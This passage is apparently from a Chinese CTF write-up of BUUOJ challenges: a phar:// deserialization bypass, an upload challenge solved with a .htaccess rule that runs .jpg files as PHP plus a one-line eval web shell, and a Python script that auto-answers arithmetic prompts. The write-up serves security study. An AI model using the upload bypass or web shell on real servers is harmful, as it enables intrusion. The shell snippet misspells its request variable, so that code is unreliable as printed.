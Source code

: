 ```php
$phar->setMetadata($o);  //将自定义 meta-data 存入 manifest
$phar->stopBuffering();
?>
```

```php
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
```

上传后利用name传参,phar://协议读取

然后再随便上传一个文件就可以看到了

## 0x04 [GXYCTF2019]BabyUpload

上传题，

试了半天只能传Content-Type: image/jpeg....

ph后缀被过滤，目录下没有现成的index.php

考虑上传**.htaccess**

```
AddType application/x-httpd-php .jpg
```

再传个马上去即可

```php
<script language="php"> 
@eval($_REQUSET['eki']);
</script>
```

### 参考资料

有趣的.htaccess :
[https://skysec.top/2017/09/06/%E6%9C%89%E8%B6%A3%E7%9A%84-htaccess/](https://skysec.top/2017/09/06/%E6%9C%89%E8%B6%A3%E7%9A%84-htaccess/)

## 0x04 Strongest Mind

写脚本自动提交答案

```python
#coding=utf-8
import requests
import re
import time
url="http://7e06e031-f0c4-460e-a008-c160f5dcc242.node3.buuoj.cn/"

rule=re.compile(r"\d* [-+*/] \d*")

s=requests.Session()
req=s.get(url=url)


for i in range(1000):
    text=rule.findall(req.text)[0]
    data={
        "answer":str(eval(text)),
    }
    #print data
    req=s.post(url=url,data=data)
    time.sleep(0.5)
```